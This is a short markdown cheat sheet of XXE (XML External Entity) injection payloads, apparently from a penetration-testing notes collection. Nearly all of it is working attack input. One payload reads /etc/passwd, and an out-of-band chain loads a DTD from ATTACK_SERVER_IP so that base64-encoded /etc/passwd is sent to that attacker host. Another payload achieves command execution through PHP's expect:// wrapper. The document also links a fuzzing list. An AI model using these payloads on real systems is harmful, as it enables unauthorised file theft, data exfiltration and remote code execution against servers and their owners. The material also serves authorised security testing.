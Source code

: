# XXE - XML External Entity Injection

## Payloads

### File Extraction

```markup
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

```markup
# file.dtd; hosted by attack web server
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY % trick SYSTEM 'http://ATTACK_SERVER_IP:80/?p=%payl;'>">

# XML payload to vulnerable server
<!DOCTYPE convert [ <!ENTITY % remote SYSTEM"http://ATTACK_SERVER_IP:80/file.dtd">%remote;%int;%trick;]>
```

### Remote Code Execution

If PHP "expect" module is loaded:

```markup
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

## Fuzzing

[https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/XXE-Fuzzing.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/XXE-Fuzzing.txt)

## Sources

{% embed url="https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection" %}
